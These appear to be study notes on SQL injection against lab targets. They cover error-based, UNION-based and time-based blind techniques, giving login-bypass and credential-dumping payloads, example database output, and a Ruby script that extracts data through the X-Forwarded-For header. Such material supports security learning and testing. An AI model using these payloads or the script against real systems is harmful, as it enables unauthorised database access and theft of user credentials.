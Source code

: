 # Identifying SQLi via Error-based Payloads

At a login where the sql query is likely 

```
$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
```

So the username `$uname` would be the uname field and the `$passwd` would be the password field of a login form.

if you inject
```
admin' OR 1=1 -- //
```

you have the query 

```
SELECT * FROM users WHERE user_name= 'admin' OR 1=1 --
```

which is valid sql syntax and will return true as if there is no admin user, there is at least `1=1` also the `--` is a comment so comment out the rest of the sql query.

If you get an error from entering `admin'` then the error may be displayed on the page.

eg:

```
Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for right syntax to use near 'acdfadf879657865876587i6acfd'' at line 1
```

If the error is visible it is considered `in-band`

moving on we can put sql commands in the injection section.

```
' or 1=1 in (select @@version) -- //
```

NB: MySQL accepts both `version()` and `@@version`

Result:

```
Warning: 1292: Truncated incorrect DOUBLE value: '8.0.28'
```

how about we try a SELECT statement instead:

```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Result:

```
Warning: 1292: Truncated incorrect DOUBLE value: '212134566fda35afdadfacc345'
```

# UNION-based Payloads

Now analyse this query that is in a website.

```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["input"]."%'";
```

First you need to discover the correct number of columns which you do by iterating through the following injection:

```
' ORDER BY 1-- //
```

and eventually you might get the following error

```
' ORDER BY 6-- //
```

Result:

```
Unknown column '6' in 'order clause'
```

So now lets try a UNION command where we know we need to use 5 columns (and `%` is a wildcard in sql)

```
%' UNION SELECT database(), user(), @@version, null, null -- //
```

Result:

```
Name            | Phone  | Address | Country
--------------------------------------------
...
root@172.17.0.3  8.0.28
```

So now we need to pad out the columns to align the data to be visible as first column appears to be left off.

Now lets try to get table names and columns names from the current database:

```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

Result:

```
Name          | Phone     | Address | Country
--------------------------------------------
customers       id          webapp
customers       name        webapp
customers       phone       webapp
customers       address     webapp
customers       country     webapp
users           id          webapp
users           username    webapp
users           password    webapp
users           description webapp
```

etc etc

```
' UNION SELECT null, username, password, description, null FROM users -- //
```

# Blind SQL Injections

check for sql injection and use an AND clause so that you can boolean check to see if different usernames exist.

```
admin' AND 1=1 -- //
```

instead lets try sleep functions to see if we can get them to trigger.

```
' AND IF (1=1, sleep(3),'false') -- //
```

if there is a delay then the true clause exists in this case the `1=1` which is always true so you can get a sleep delay if the sql code worked.

for deeper analysis of manual blind sql injection i like to use a poc from pentesterlab - https://pentesterlab.com/exercises/from-sqli-to-shell-ii


in ruby the following will slowly work out the response to a blind sql injection.

in this case the injection entry point is the `X-Forwarded-For: #{p}`

```
require 'socket'

inj = "select user()"
str = ""

def test(sql)
  p = "hacker' or if((#{sql}),sleep(0.5),0) and '1'='1"
  t = Time.now
  begin
    s = TCPSocket.new("vulnerable",80)
    s.write("GET / HTTP/1.1\r\nHost: vulnerable\r\nX-Forwarded-For: #{p}\r\nConnection: close\r\n\r\n")
    s.readlines()
    s.close
  rescue Errno::ECONNRESET, EOFError
  end
  return ((Time.now-t)>0.5)
end

# dummy initialisation for the while loop, we loop until the returned value is null
value = 1
i = 0

while value != 0
  # i is the position in the string
  i+=1
  # initialise to 0 the value we are trying to retrieve
  value = 0
  # for each bit
  0.upto(6) do |bit|
    # 2**bit is 2^bit and will do all the bit masking work
    sql = "select ascii(substring((#{inj}),#{i},1))&#{2**bit}"
    if test(sql)
      # if the returned value is true
      # we add the mask to the current_value
      value+=2**bit
    end
  end
  # value is an ascii value, we get the corresponding character using the `.chr` ruby function
  str+= value.chr
  puts str
end
```

The Result is:

```
% ruby course/exploit.rb
p
pe
pen
pent
pente
pentes
pentest
penteste
[...]
pentesterlab@localhost
```
